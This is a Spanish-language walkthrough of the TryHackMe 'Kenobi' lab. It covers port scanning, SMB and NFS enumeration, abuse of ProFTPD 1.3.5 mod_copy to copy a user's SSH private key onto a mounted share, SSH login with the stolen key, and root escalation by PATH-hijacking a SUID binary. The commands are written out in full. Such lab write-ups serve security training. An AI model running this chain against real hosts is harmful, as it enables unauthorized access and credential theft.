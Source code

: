 ```yaml
---
title: "Kenobi"
description: "Kenobi"
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/kenobi

# Fase de reconocimiento

## Buscar puertos abiertos

````
nmap -sS -p- --open --min-rate=5000 -T5 -vvv -Pn -n 10.10.70.164 -oG allPorts
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428014336.png)

## Reconocimiento de servicios

````
nmap -sCV -p21,22,80,111,139,445,2049,37351,42033,54489,59577 10.10.70.164 -oN targeted
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428014619.png)

## SAMBA

Nos conectamos

````
smbclient //10.10.70.164/anonymous
````

Encontramos un log.txt con información sobre el FTP

````
smb:> get log.txt
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428022950.png)

## Comprobar el RPC

En nuesttro caso es un network file system

````
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.70.164
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428023330.png)

## FTP

El FTP es proftpd version 1.3.5

````
searchsploit proftpd
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428023534.png)
Podemos observar que es vulnerable a mod_copy por lo que podemos copiar y pegar ficheros del sistema donde queramos.

# Fase de explotación

## Copiar la clave privada

Vemos la clave privada donde se guarda en el log.txt
Nos conectamos al ProFTPD

````
nc 10.10.70.164
````

````
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428024023.png)

## Montar /var del network file system

````
mkdir /mnt/kenobi
````

````
mount 10.10.70.164:/var /mnt/kenobi
````

````
cd /mnt/kenobi/tmp
````

Copiamos la clave privada
Nos conectamos por SSH al servidor

````
ssh kenobi@10.10.70.164 -i id_rsa
````

\[-\] ==pwned!==

# Privilege Escalation

## Privilege Escalation via SUID

1. Primero buscamos archivos donde tenga permisos

````
find / -perm-u=s -type f 2>/dev/null
````

2. Encontramos un /usr/bin/menu
2. Vemos que ejecuta comandos como root
2. Comprobamos que comandos utiliza

````
strings /usr/bin/menu
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240428030345.png)
Podemos observar que ejecuta los comandos sin ruta absoluta
5. En el home del usuario creamos un archivo llamado curl que ejecute el comando /bin/bash

````
echo /bin/bash > curl
````

7. Lo añadimos a el PATH

````
export PATH=/home/kenobi:$PATH
````

9. Ejecutamos en el menu la opción que ejecuta el curl
   \[+\] ==pwned!==
